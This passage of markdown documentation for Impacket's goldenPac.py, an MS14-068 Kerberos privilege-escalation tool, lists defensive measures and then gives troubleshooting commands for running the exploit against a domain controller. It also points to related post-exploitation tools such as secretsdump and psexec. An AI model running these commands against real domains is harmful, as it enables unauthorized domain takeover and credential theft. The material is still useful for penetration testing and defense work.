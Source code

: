 ## Defensive Measures
- **Immediate Actions**:
  - Apply Microsoft security update MS14-068 immediately
  - Monitor for unusual privilege escalations
  - Implement additional PAC validation
- **Long-term Security**:
  - Regular patch management processes
  - Kerberos security monitoring
  - Privileged access management (PAM)
  - Network segmentation to limit blast radius
- **Detection Implementation**:
  - Deploy behavioral analysis tools
  - Monitor Kerberos authentication patterns
  - Implement anomaly detection for privilege changes

## Common Issues and Troubleshooting

### Name Resolution Issues
```bash
# Error: "Name resolution failed"
# Solution: Add entries to /etc/hosts or use IP addresses
echo "192.168.1.10 dc.domain.net domain.net" >> /etc/hosts
python3 goldenPac.py -dc-ip 192.168.1.10 -target-ip 192.168.1.10 domain.net/user:pass@dc.domain.net
```

### Clock Skew Problems
```bash
# Error: "Clock skew too great"
# Solution: Synchronize time with domain controller
ntpdate dc.domain.net
python3 goldenPac.py domain.net/user:pass@dc.domain.net
```

### Already Patched Systems
```bash
# Error: Exploitation fails on patched systems
# Solution: Verify patch status and consider alternative methods
python3 goldenPac.py -debug domain.net/user:pass@dc.domain.net
# Look for specific error messages indicating patch presence
```

### Network Connectivity Issues
```bash
# Error: "Connection refused" or timeout
# Solution: Verify network access and firewall settings
# Check SMB (445), Kerberos (88), and RPC (135) ports
nmap -p 88,135,445 dc.domain.net
```

## Related Tools
- [ticketer.py](ticketer.md) - Create golden/silver tickets (alternative method)
- [psexec.py](psexec.md) - Execute commands after privilege escalation
- [secretsdump.py](secretsdump.md) - Extract credentials with elevated privileges
- [wmiexec.py](wmiexec.md) - WMI-based command execution
- [GetNPUsers.py](GetNPUsers.md) - Obtain initial domain user credentials
- [lookupsid.py](lookupsid.md) - Enumerate domain users and groups

---

*This documentation is based on the actual source code and functionality of goldenPac.py from Impacket.*
